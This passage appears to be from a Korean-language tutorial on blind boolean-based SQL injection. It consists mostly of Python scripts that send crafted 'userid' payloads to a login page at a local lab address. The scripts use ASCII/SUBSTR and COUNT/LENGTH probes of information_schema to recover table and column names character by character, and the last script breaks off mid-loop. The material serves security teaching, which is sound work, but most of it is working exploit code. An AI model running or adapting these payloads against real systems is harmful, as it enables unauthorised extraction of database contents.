 ```py
            QUERY   = requests.utils.quote(f'test\' AND ASCII(SUBSTR((SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA=\'test\' LIMIT {i},1),{j+1},1))={ord(s)}#')
            URL     = TARGET + f'?userid={QUERY}&password=123'
            REQUEST = requests.get(url=URL)
            if REQUEST.text == 'Welcome test': TABLE_NAME += s
    print(f'{TABLE_NAME}')
```

결과는 다음과 같다.

	user

## **컬럼 이름 확인**

참과 거짓의 결과 정보를 이용하여 컬럼의 이름을 획득해보자.

먼저 COUNT를 이용하여 컬럼의 수를 확인하자.

SELECT의 이중쿼리의 경우 출력결과가 1개로 나와야 하며 괄호를 이용하여 감싸준다.

URL 인코딩을 시키기 위해 requests.utils.quote를 사용한다.

```py
QUERY       = requests.utils.quote(f'test\' AND (SELECT COUNT(COLUMN_NAME) FROM information_schema.COLUMNS WHERE TABLE_SCHEMA=\'test\' AND TABLE_NAME=\'user\')={i}#')
```

컬럼 수만큼 반복하여 다음으로 컬럼의 문자열 길이를 알아내자.

```py
QUERY       = requests.utils.quote(f'test\' AND LENGTH((SELECT COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA=\'test\' AND TABLE_NAME=\'user\' LIMIT {i},1))={j}#')
```

다시 SUBSTR로 문자열을 하나씩 확인한다.

```py
QUERY   = requests.utils.quote(f'test\' AND ASCII(SUBSTR((SELECT COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA=\'test\' AND TABLE_NAME=\'user\' LIMIT {i},1),{j+1},1))={ord(s)}#')
```

다음의 Full Code로 모든 컬럼의 이름을 확인해보자.

```py
import requests
import string

TARGET          = 'http://192.168.0.58/index.php'
RESULT_LENGTH   = 0

for i in range(100):
    QUERY       = requests.utils.quote(f'test\' AND (SELECT COUNT(COLUMN_NAME) FROM information_schema.COLUMNS WHERE TABLE_SCHEMA=\'test\' AND TABLE_NAME=\'user\')={i}#')
    URL         = TARGET + f'?userid={QUERY}&password=123'
    REQUEST     = requests.get(url=URL)
    if REQUEST.text == 'Welcome test':
        RESULT_LENGTH = i
        break
print(f'Number of columns : {RESULT_LENGTH}')

for i in range(RESULT_LENGTH):
    COLUMN_NAME_LENGTH    = 0
    COLUMN_NAME           = ''
    for j in range(100):
        QUERY       = requests.utils.quote(f'test\' AND LENGTH((SELECT COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA=\'test\' AND TABLE_NAME=\'user\' LIMIT {i},1))={j}#')
        URL         = TARGET + f'?userid={QUERY}&password=123'
        REQUEST     = requests.get(url=URL)
        if REQUEST.text == 'Welcome test': COLUMN_NAME_LENGTH = j
    for j in range(COLUMN_NAME_LENGTH):
```